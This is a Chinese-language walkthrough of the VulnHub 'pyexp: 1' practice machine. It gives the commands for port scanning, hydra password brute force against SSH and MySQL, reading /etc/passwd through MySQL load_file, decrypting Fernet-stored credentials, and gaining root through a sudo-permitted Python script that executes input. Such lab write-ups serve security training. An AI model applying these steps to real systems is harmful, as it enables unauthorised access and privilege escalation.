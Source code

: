 靶机地址：[pyexp: 1 ~ VulnHub](https://vulnhub.com/entry/pyexp-1,534/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.11
sudo nmap -p1337,3306 -sV 192.168.1.11
# 1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
```
尝试搜索已知漏洞，并没有成功
尝试暴力破解
```Shell
hydra -l root -P /home/kali/Tools/Custom/rockyou.txt ssh://192.168.1.11:1337
hydra -l root -P /home/kali/Tools/Custom/rockyou.txt mysql://192.168.1.11
# [3306][mysql] host: 192.168.1.11   login: root   password: prettywoman
```
成功暴力破解出了 `MySQL` 的密码
尝试连接
```Shell
mysql -h 192.168.1.11 -u root -p
# prettywoman
```
尝试执行系统命令、读取文件
```SQL
SELECT do_system("id");
SELECT load_file('/etc/passwd');
```
执行系统命令失败，但是成功读取到了文件，内容 `grep "/bin/bash"` 后结果如下
```
root:x:0:0:root:/root:/bin/bash
lucy:x:1000:1000:lucy,,,:/home/lucy:/bin/bash
```
从数据库 `data` 中的表 `fernet` 获取到如下内容
```
# cred keyy
gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
```
看上去就是加密过的内容，简单通过CyberChef试了一下，并没有解密成功
搜索引擎查一下fernet crypto，找到了官网
```Python
from cryptography.fernet import Fernet
key = b"UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0="
f = Fernet(key)
cred = b"gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys="
print(f.decrypt(cred))
```
输出如下
```
b'lucy:wJ9`"Lemdv9[FEw-'
```
尝试SSH
```Shell
ssh lucy@192.168.1.11 -p 1337
# wJ9`"Lemdv9[FEw-
```
成功登录系统，尝试提权
```Shell
sudo -l
# (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
cat /opt/exp.py
# uinput = raw_input('how are you?')
# exec(uinput)
sudo /usr/bin/python2 /opt/exp.py
# import pty; pty.spawn("/bin/bash")
```
成功提权

尝试其它提权方式
[[20 CVE#CVE-2021-3156|CVE-2021-3156]] 可以通过Python代码提权

